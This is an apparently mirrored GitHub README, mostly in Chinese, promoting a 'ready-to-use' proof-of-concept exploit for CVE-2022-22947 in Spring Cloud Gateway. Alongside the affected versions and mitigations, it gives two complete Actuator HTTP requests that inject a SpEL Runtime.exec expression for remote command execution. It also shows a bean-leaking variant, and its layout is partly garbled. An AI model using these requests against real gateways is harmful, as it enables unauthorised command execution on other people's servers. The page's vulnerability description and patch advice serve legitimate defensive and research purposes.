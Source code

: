 # Spring_CVE_2022_22947

Spring_CVE_2022_22947:Spring Cloud Gateway现高风险漏洞cve,poc漏洞利用,一键利用,开箱即用

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/wjl110](https://github.com/wjl110) |
| Url      | [https://github.com/wjl110/Spring_CVE_2022_22947](https://github.com/wjl110/Spring_CVE_2022_22947)                                               |
| Stars    | 11                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve* cve-2022-22947* poc* spring-cloud-gateway* spring-cve-2022-22947

</details>

## Readme

# Spring_CVE_2022_22947
Spring_CVE_2022_22947:Spring Cloud Gateway现高风险漏洞cve,poc漏洞利用,一键利用,开箱即用
![image](https://user-images.githubusercontent.com/53851034/156614534-ec365420-9bca-4236-a10e-98fc7ed71d43.png)

漏洞描述 ：#####
#漏洞
漏洞描述：#####
### Spring Cloud Gateway Spring中API网关攻击。3.1.0及3.0.6版本（包含）之前存在SpEL表达式的插件，当开发者可以利用Actuator API的执行情况下，将是该漏洞的命令选项。
漏洞描述：#####
# 影  响范围 :
## Spring Cloud Gateway以下版本均受影响：

    3.1.0
    3.0.0至3.0.6
    其他老版本 
    
#  缓解方法 ： 
    3.1.x用户应升级到3.1.1+
    3.0.x用户应升级到3.0.7+
    如果不需要Actuator端点，可以通过management.endpoint.gateway.enable：false配置将其禁用
    如果需要Actuator端点，则应使用Spring Security对其进行保护 

CVE-2022-22946：HTTP2 不安全的 TrustManager :

严重性 ： Medium 


![image-20220303141049270](https://user-images.githubusercontent.com/53851034/156614983-1471d8b7-89b5-4e8d-8d5b-a451089a44e9.png)



###





# poc漏洞利用:

### 来自白帽汇:
#### 使用方法:burpsuite改包发送

{

    POST /actuator/gateway/routes/new_route HTTP/1.1    

    Host: 127.0.0.1:9000

     Connection: close

     Content-Type: application/json

     {

     "predicates": [

        {

         "name": "Path",
 
         "args": {

           "_genkey_0": "/new_route/**"
 
        }

        }

     ],

     "filters": [

     {

      "name": "RewritePath",

      "args": {

       "_genkey_0": "#{T(java.lang.Runtime).getRuntime().exec(\"touch/tmp/x\")}",
 
       "_genkey_1": "/${path}"

     }

    }

     ],

    "uri": "https://wya.pl",

    "order": 0

    }

}
# 第二段poc利用:

{
    
    POST /actuator/gateway/refresh HTTP/1.1

    Host: 127.0.0.1:9000

    Content-Type: application/json

    Connection: close

    Content-Length: 258

    {

     "predicate": "Paths: [/new_route], match trailing slash:true",

    "route_id": "new_route",

     "filters": [

      "[[RewritePath#{T(java.lang.Runtime).getRuntime().exec(\"touch /tmp/x\")} =/${path}], order = 1]"

     ],

    "uri": "https://wya.pl",

     "order": 0

    }


}

### 简单说明一下：第一个请求将创建路由；第二个命令强制重新加载配置。并且，在路由的重新加载时，将会执行SpEL表达式。

# 利用方法:


![image](https://user-images.githubusercontent.com/53851034/156774162-2db9bafc-c5d1-4046-9c72-e79649b76d86.png)


{
        
        SimpleEvaluationContext支持SpEL功能的一个子集，一般来说，它比StandardEvaluationContext更加安全。根据Javadocs的说法，“SimpleEvaluationContext只支持SpEL语言语法的一个子集，例如，不包括对Java类型、构造函数和Bean引用的引用。”

{   
        
        当我在研究这个问题时，我看到SpEL的原始需求来自GitHub repo上的一些问题：主要是用户希望实现一个可以通过SpEL表达式调用的自定义bean。一个例子是管理一个路由的速率限制。当我研究这个补丁的时候，我发现仍然可以调用没有方法参数的Bean——这意味着#{@gatewayProperties.toString}可以被用来打印出gatewayPropertiesBean的定义。而SimpleEvaluationContext是不允许调用#{@gatewayProperties.setRoutes(..)}的。这在本质上应该只限制getter方法被调用。

#### 或者:

    [在使用添加和刷新路由所需的两个HTTP请求发送#{@gatewayproperties.tostring}后，可以看到上图所示内容。请注意，一些内部信息可能会遭到泄漏。根据可用的Bean，这可能被用来泄漏应用程序状态的属性或其他属性。
    虽然网关服务不用对类路径中包含的bean负责，但它至少应该确保它的库中的bean不会被调用，从而导致泄漏重要信息或对应用程序产生负面影响。]

    [最后，我编写了更多的CodeQL查询，看看会发生什么情况。简单来说，我想在库中找到所有不带参数的方法的bean。然后，递归地查看返回类型，看看是否有任何没有参数的方法可以调用。这些查询看起来类似于bean1.method1.method2这个样子。]





## Get the content

```
git clone https://github.com/wjl110/Spring_CVE_2022_22947
cd Spring_CVE_2022_22947
```

{% embed url="https://github.com/wjl110/Spring_CVE_2022_22947" %}

<figure><img src="https://avatars.githubusercontent.com/u/53851034?v=4" alt=""><figcaption><p>wjl110</p></figcaption></figure>
